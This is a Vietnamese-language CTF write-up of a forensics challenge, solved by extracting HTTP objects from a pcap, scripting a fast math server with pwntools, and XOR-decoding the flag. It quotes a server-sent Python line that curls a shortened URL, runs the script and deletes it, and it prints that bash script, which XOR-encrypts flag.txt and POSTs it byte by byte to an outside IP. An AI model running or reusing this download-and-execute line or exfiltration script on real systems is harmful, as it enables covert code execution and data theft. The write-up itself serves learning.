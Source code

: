 # Description 

I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate?

Author: Guesslemonger

![image](https://github.com/Kayiyan/CTF_Team_Write-up/assets/126185640/9b791c18-c837-40d5-81f8-8e953e5780cf)

# Solved

Challange cung cấp file `pcap` nên hãy bắt đầu phân tích và tìm kiếm dữ liệu quan trọng trong file trước : 

Khá nhiều gói tin có vẻ quan trọng được gửi đi hãy thử lấy chúng ra xem : 

![image](https://github.com/Kayiyan/CTF_Team_Write-up/assets/126185640/e83b126f-1365-4b55-b206-9aac41186bfb)

`Export Objects -> HTTP -> lưu tất cả vào 1 thư mục nào đó cần thiết để xử lí :`

![image](https://github.com/Kayiyan/CTF_Team_Write-up/assets/126185640/6ffca8ed-c013-4ceb-9295-4b9c06e7c7b8)


Okay, ở đây mỗi file đều chứa 1 dữ liệu gì đó sau `data` thử tổng hợp chúng lại và mình thu được 1 đoạn mã `hex` có vẻ như đây là `flag` nhưng đã được encrypt:

`20 76 20 01 78 24 45 45 46 15 00 10 00 28 4b 41 19 32 43 00 4e 41 00 0b 2d 05 42 05 2c 0b 19 32 43 2d 04 41 00 0b 2d 05 42 28 52 12 4a 1f 09 6b 4e 00 0f`

mình đã  sử dụng 1 đoạn python nhỏ để lấy dữ liệu trên : 

```python
import os
import json

folder_path = "C:\\Users\\DELL\\Downloads\\ctf\\forensic\\evalme\\test"

combined_values = []  # Danh sách giá trị của khóa "data"

num_files = 102  # Số lượng file %5c, %5c(1), %5c(2), ..., %5c(101)

for i in range(num_files):
    file_name = f"%5c({i})" if i > 0 else "%5c"  # Tạo tên file tương ứng
    full_path = os.path.join(folder_path, file_name)
    try:
        with open(full_path, "rb") as file:
            file_content = file.read()  # Đọc nội dung của file
            try:
                json_data = json.loads(file_content)
                data_value = json_data.get("data")
                if data_value is not None:
                    combined_values.append(data_value)
            except json.JSONDecodeError:
                pass  # Bỏ qua nếu không phải định dạng JSON
    except FileNotFoundError:
        pass  # Bỏ qua nếu file không tồn tại

# In ra các giá trị cách nhau bởi khoảng trắng
combined_line = ' '.join(combined_values)
print(combined_line)


```

Có vẻ như không còn gì quan trọng ở đây hãy tiếp tục xử lí đến server mà bài đã cung cấp : `nc chals.sekai.team 9000`

![image](https://github.com/Kayiyan/CTF_Team_Write-up/assets/126185640/82c94f21-8288-456d-ac59-42b0ebb659aa)

Kết nối lên và làm theo yêu cầu thì có vẻ như thông thường sẽ luôn nhận về kết quả `too slow` , vậy phải kết nối lên và đồng thời tính toán luôn sẽ kịp được tốc độ của máy, `pwntool` trong python sẽ giúp làm điều này :

```python
from pwn import *

def calculate(expression):
    parts = expression.split(' ')
    if len(parts) != 3:
        return None
    num1 = int(parts[0])
    operator = parts[1]
    num2 = int(parts[2])
    if operator == '+':
        return num1 + num2
    elif operator == '-':
        return num1 - num2
    elif operator == '*':
        return num1 * num2
    elif operator == '/':
        return num1 / num2  

while True:
    try:
        conn = remote('c.chals.sekai.team', 9000)
        welcome_message = conn.recvline().decode().strip()
        print(welcome_message)

        for _ in range(100):
            problem = conn.recvline().decode().strip()
            print(problem)
            
            result = calculate(problem)
            if result is not None:
                conn.sendline(str(result).encode())
                response = conn.recvline().decode().strip()
                print(response)

        conn.close()
    except EOFError:
        print("Connection closed, retrying...")
        continue
    except KeyboardInterrupt:
        print("Interrupted by user.")
        break

```

Đợi 1 lúc và nhận được dòng tin nhắn sau từ server : `__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f#1 + 2ct.sh)>/dev/null 2>&1||true",shell=True)`

![image](https://github.com/Kayiyan/CTF_Team_Write-up/assets/126185640/0cef2a87-4efd-4095-8862-12be9c684d39)

Ở đây có chứa câu lệnh `curl` 1 file gì đó từ đường link kia, thử câu lệnh đó và thu được `code` của 1 file  : `curl -sL https://shorturl.at/fgjvU`

```bash
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'


# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }


XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```

Okay, ở đây có chứa giá trị `KEY` và thuật toán `xor` , quay lại lúc nãy mình có `flag` dưới dạng `hex` nhưng đã được encrypt ,  `xor` chúng với `key` thu được này và thu về được `FLAG` :

Có thể dùng `CyberChef` hoặc `Python` để `xor` :

`From CyberChef` : 

![image](https://github.com/Kayiyan/CTF_Team_Write-up/assets/126185640/47c74b04-362d-4183-82ea-129007d3ab85)


```python
from pwn import xor

hex_string = '20 76 20 01 78 24 45 45 46 15 00 10 00 28 4b 41 19 32 43 00 4e 41 00 0b 2d 05 42 05 2c 0b 19 32 43 2d 04 41 00 0b 2d 05 42 28 52 12 4a 1f 09 6b 4e 00 0f'
key = 's3k@1_v3ry_w0w'

hex_values = bytes.fromhex(hex_string.replace(' ', ''))
key_values = key.encode()

xor_result = xor(hex_values, key_values)
xor_result_hex = xor_result.hex()
last_result = bytes.fromhex(xor_result_hex)

print(last_result)
```

 `FLAG`  : `SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483}`




